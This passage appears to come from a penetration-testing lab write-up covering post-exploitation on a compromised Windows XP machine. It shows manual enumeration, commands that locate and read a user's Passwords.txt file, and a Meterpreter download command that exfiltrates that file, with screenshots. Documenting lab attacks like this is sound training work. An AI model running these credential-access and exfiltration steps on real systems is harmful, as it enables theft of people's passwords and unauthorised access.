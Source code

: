 ### 3. Post-Exploitation
- Manual Enumeration

![System info of exploited Windows XP](assets/win-info.png)

![Navigating directories in Windows XP](assets/navigating-dir.png)

- Credential Access
```bash
cd C:\Documents and Settings\John\My Documents
dir
```
![Browsing to password file on target](assets/data-target.png)

- File Viewing & Exfiltration
```bash
type "Passwords.txt"
```
![Manual viewing of password file](assets/manually-obtaining-the-password.png)

```bash
download "C:\Documents and Settings\John\My Documents\Passwords.txt"
```
![Downloading password file via Meterpreter](assets/data-exfiltrated.png)
